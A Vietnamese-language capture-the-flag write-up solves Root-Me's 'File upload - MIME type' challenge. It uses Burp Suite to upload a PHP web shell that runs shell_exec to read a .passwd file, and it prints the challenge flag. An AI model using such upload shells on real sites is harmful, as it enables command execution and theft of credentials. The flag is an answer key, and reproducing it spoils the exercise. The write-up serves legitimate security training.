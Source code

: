 ```yaml
---
template: overrides/blog.html
icon: material/plus-circle
title: File upload - MIME type
description: >
  
search:
  exclude: true
hide:
  - feedback

tags:
    - PHP
    - Path Traversal
---
```


# __File upload - MIME type__

<span>
:octicons-calendar-24: May 09, 2023

</span>

---


## __Tài nguyên và link challenge__

Tài nguyên của challenge này tại [https://www.root-me.org/en/Challenges/Web-Server/File-upload-MIME-type](https://www.root-me.org/en/Challenges/Web-Server/File-upload-MIME-type)

Link challenge này tại [:octicons-arrow-right-24: http://challenge01.root-me.org/web-serveur/ch21/][http://challenge01.root-me.org/web-serveur/ch21/]

  [http://challenge01.root-me.org/web-serveur/ch21/]: http://challenge01.root-me.org/web-serveur/ch21/

## __Tổng quan__

Trong challenge này, mục tiêu của ta là hack thư viện ảnh bằng cách tải liên đoạn mã php. Lấy mật khẩu trong tệp .passwd

## __Kịch bản tấn công__

Trong có vẻ y hệt bài [File upload - Double extensions](/rootme/web-server/php/file-upload_double_extensions/) 

Ta thử làm thủ thuật như bài [File upload - Double extensions](/rootme/web-server/php/file-upload_double_extensions/)  thì well, nó không work ::)

<figure markdown>
  ![Image title](/rootme/web-server/php/images/file-upload_mine_type-01.png#zoom)
  <figcaption>Hình ảnh website</figcaption>
</figure>

Ta bật burp suite lên để xem

<figure markdown>
  ![Image title](/rootme/web-server/php/images/file-upload_mine_type-02.png#zoom)
  <figcaption>Hình ảnh website</figcaption>
</figure>

Well, phát hiện vấn đề rồi nha, challenge này nó không thực thi file ảnh (tức .jpg) nhưng nó khum hề filter cái file gửi lên, ta sẽ chuyển file a.php.jpg thành `a.php` và gửi

<figure markdown>
  ![Image title](/rootme/web-server/php/images/file-upload_mine_type-03.png#zoom)
  <figcaption>Hình ảnh website</figcaption>
</figure>

Lụm flag thui, hehe :3

<div class="result" markdown>

``` php linenums="1"
<?php
$output = shell_exec('cat ../../../.passwd');
echo "<pre>$output</pre>";
?>
```

</div>

???+ question "Chậm lại và suy nghĩ"

    Tại sao không upload file a.php từ đầu bằng website?

??? success "Giải quyết chậm lại suy nghĩ 2"

    Bạn thử làm nhé ::). Vấn đề này nó liên quan đến việc website khum hề check tên file, nó chỉ check đúng cái `Content-type

!!! success "__Flag__"
    a7n4nizpgQgnPERy89uanf6T4
